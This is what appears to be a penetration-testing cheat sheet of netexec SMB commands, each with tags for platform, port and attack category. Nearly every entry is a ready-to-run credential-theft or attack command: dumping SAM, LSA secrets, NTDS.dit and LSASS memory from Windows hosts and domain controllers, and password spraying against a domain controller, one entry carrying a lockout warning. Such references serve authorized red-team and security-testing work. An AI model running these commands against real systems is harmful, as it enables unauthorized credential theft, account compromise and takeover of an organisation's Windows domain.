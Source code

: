 ```bash
netexec smb <ip> -u <user> -p <password> -d <domain> --sam
```

## netexec - Dump LSA
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump LSA secrets using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
netexec smb <ip> -u <user> -p <password> -d <domain> --lsa
```

## netexec - dump ntds.dit
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump the NTDS.dit from target DC using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
netexec smb <ip> -u <user> -p <password> -d <domain> --ntds
```

## netexec - dump lsass
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
netexec smb <ip> -u <user> -p <password> -d <domain> -M lsassy
```

## netexec - dump lsass - with bloodhond update
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
netexec smb <ip> --local-auth -u <user> -H <hash> -M lsassy -o BLOODHOUND=True NEO4JUSER=<user|neo4j> NEO4JPASS=<neo4jpass|exegol4thewin>
```

## netexec - password spray (user=password)
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
netexec smb <dc_ip> -u <user.txt> -p <password.txt> --no-bruteforce --continue-on-success
```

## netexec - password spray multiple test 
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY #tag/warning

(careful on lockout)

```bash
netexec smb <dc_ip> -u <user.txt> -p <password.txt> --continue-on-success
```
